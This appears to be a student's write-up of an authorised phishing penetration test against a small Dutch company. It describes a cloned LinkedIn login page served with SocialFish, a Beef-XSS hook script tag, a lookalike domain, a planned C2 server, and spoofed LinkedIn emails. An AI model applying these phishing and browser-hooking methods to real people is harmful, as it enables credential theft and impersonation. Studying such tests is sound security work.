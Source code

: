 ```yaml
---
permalink: /group/phishing
layout: single
title: Hoefnagels - phishing campaign
---
```


The goal of our group project is to research what is required from IT-Workz to start providing penetration test as a service. To do that, our
group was tasked with conducting multiple pen tests to select the core requirements.

We have started with establishing contact with Hoefnagels - a company specializing in manufacturing fire safety equipment. The company is quite
old and has been run by the same family since its inception. Since Hoefnagels is a rather small organization, they do not have a designated IT
department. They rely on a 3rd party that set up and does maintenance on their infrastructure.

The scope of the pen test focused on simulating an external threat and one of the goals was to conduct a phishing campaign. I have decided to
pick up this task and work on it together with other group member.

## Prerequisites

Our first goals while getting started were:

- Finding the appropriate technologies for hosting the malicious website.
- Coming up with a plausible scenario, so that the employees might click on the email.

I have decided to focus more on the first one and started researching different phishing tools. We wanted the tooling to give us the possibility
to extract credentials of the victims and to be able to plant a malicious file on their computers.

## Website

Based on our needs, I have decided to use a phishing framework that would aid me with hosting and managing the website. My choice fell on the
tool called [SocialFish](https://github.com/UndeadSec/SocialFish). SocialFish provided an easy way to host custom html websites and attaching some malicious JavaScript, as well as easy to use interface.

Moreover, we decided to use Beef-XSS - a framework which gives the attacker the possibility to control victim's browser, after delivering a
JavaScript payload.

The website had to be accessible from the internet, so I have decided to host it on a DigitalOcean's virtual machine which could handle
SocialFish and run some additional software.

## Initial deployment and HTTPS

| ![First droplet](../../assets/img/phishing/droplet_1.png) |
| First droplet |

We deployed our virtual machine, and I have started setting up the required software:

- SocialFish
- Beef-XSS
- Uncomplicated Firewall (UFW)
- LetsEncrypt bot

### SocialFish and Beef-XSS

SocialFish is an open source, Python software which allows users to maintain and run phishing campaigns. The application is open source, which
allowed me to customize the behavior of the server to tailor it to our needs.

| ![SocialFish](../../assets/img/phishing/socialfish.png) |
| SocialFish |

I downloaded a copy of LinkedIn's log in page, and uploaded it to the virtual machine to use it as a custom phishing page. This allowed me to add a
a script tag which injects a Beef-XSS payload into the victim's browser.

```html
<script src="http://127.0.0.1:3000/hook.js"></script>
```

| ![Beef](../../assets/img/phishing/beef.png) |
| Beef |

Moreover, I used the Let's Encrypt certificate services to increase the legitimacy of my website. That way, the website seemed as if it was an actual
LinkedIn.

### Blocked domain and new website

| ![Blocked domain](../../assets/img/phishing/domain_blocked.png) |
| Blocked domain |

However, few hours after deploying the website, I have discovered that the domain was blocked. Apparently Google's (probably) web crawlers flagged the
website as malicious, since the domain name was `linkedlin.ml` and it was a copy of the linkedin front page. Moreover, I was running Beef-XSS and
SocialFish, which most likely triggered the domain flagging.

This time, we have decided to apply a firewall on our droplet and whitelist Hoefnagels IP address that we obtained from the physical testing, as well as
 our home and school addresses. I have decided to use `UFW` which was preinstalled on that instance of the Ubuntu server.  
_I have blurred out the IP addresses since these are sensitive information_

| ![Firewall rules](../../assets/img/phishing/firewall.png) |
| Firewall rules |

The firewall now only allows the selected IP addresses to the port 443 running the website and port 7443 running a C2 server `covenant` which we planned
to use after compromising victims.

We had two phishing scenarios we planned to execute:

1. Sending a fake job application on their website with a link to our SocialFish server, disguised as a fake LinkedIn page.
2. Sending an email from our `linkedllin.ml` domain that imitates an email from LinkedIn.

For the job application scenario, we decided to apply to the job posting on their website at
_[this url](https://werkenbijhoefnagels.nl/sollicitatieformulier/114/sollicitatieformulier-1ste-Monteur-Meewerkend-Voorman-Montage-buitendienst/)_.
While Georgi created a fake LinkedIn account, I deployed the infrastructure and connected both SocialFish and Beef-XSS together. We sent the job
application and awaited their response.

| ![Landing page](../../assets/img/phishing/linkedllin.ml.png) |
| Landing page |

| ![Profile](../../assets/img/phishing/profile.png) |
| Profile |

While waiting for their answer, we decided to send messages to email addresses that we found during the OSINT phase. We tried deploying an email server
on our DigitalOcean virtual machine using [Mailcow](https://mailcow.email). However, due to security reasons, new accounts are not allowed to use port 25 to send emails.
Therefore, we have decided to use the following address: `noreply.linkedllin.ml@gmail.com`

| ![Phishing email](../../assets/img/phishing/phishing_email.png) |
| Phishing email |

This fake email impersonating LinkedIn emails was sent to the email addresses of the employees. However, majority of the emails were either blocked or non-existent.

| ![Email blocked](../../assets/img/phishing/msg_blocked.png) |
| Email blocked |

### Conclusions

The phishing campaign has had its ups and downs. Not only did we not manage to send mass emails to all employes, nobody was gullible enough to input their credentials
into our fake landing page. This can be broken down into two conclusions:

**Conducting a succesful phishing campaign is a hard task.**

It requires good knowledge of managing IT infrastructure, such as firewalls, ssl certificates, DNS and email servers. Moreover fake domains can be easily targeted by the web
crawlers and flagged as malicious. And on top of that, the goal of these extensive preparations is to trick somebody into inputting their credentials on a fake webstie.

**Hoefnagels employees are phishing conscious**

Throughout the pen test, we kept in contact with the company. Even before we started our campaign, we heard that the employees reported that they started receiving
suspicious emails. The security assesment was kept secret, so the employees didn't fall for an actual attack. Our methods were a bit less successful and a bit more subtle,
but they still didn't fall for that.

All in all, I believe that if our group had more time to prepare for the phishing campaign (month or two), we would have been able to create a trusted email server,
conduct an  extensive OSINT and execute a mass mailing attack.
